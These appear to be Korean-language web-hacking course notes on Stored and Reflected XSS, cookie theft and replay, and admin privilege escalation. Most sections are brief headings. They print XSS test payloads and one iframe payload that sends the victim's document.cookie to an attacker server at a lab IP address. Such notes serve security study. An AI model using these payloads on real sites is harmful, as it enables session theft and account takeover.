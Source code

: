 ```
<script>alert(1);</script>
<script>alert("xss");</script>
<script>alert(document.cookie);</script>
```

---

### 웹 해킹 이해 - Stored XSS 취약점을 이용한 쿠키 재사용 공격

Stored XSS -> 어떤 공격을 할 수 있나?

1. 쿠키 정보(alerrt(document.cookie) - Victim(희생자-일반사용자, 관리자) 쿠키 -> 공격자 서버

2. 쿠키 재사용 공격 (Replay Attack)
- http-only
- 쿠키 생성할 때: IP주소 + 쿠키 -> 암호화
                 MAC 주소, 하드웨어의 일부 정보
  
3. ActiveX -> exe, dll -> Non - ActiveX -> 통합 프로그램(exe)

<script>alert(1);</script>
<script>alert(document.cookie);</script>
<iframe src='http://192.168.206.154/cookie.php?cookie="+document.cookie+"'width=0 height=0></iframe>

---

### 웹 해킹 이해 - BXSS Hunter를 활용한 사용자 쿠키 정보 획득

BXSS Hunter

---

### 웹 해킹 이해 - Stored XSS 취약점을 이용한 관리자 권한 상승

1:1 문의 게시판 - 1:1 쪽지 - 1:1 문의 채팅...

TEXT 형식의 글에서도 관리자쪽에서 발생할 수 있다.

블랙박스 - 리얼해킹...

사용자 -> 관리자 권한을 위해..

xss cheat sheet

브라우저별로, 버전별...

---

### 웹 해킹 이해 - Reflected XSS 취약점 실습

Reflected XSS?

---

### 웹 해킹 이해 - Burp Suite Intruder를 활용한 XSS 취약점 진단
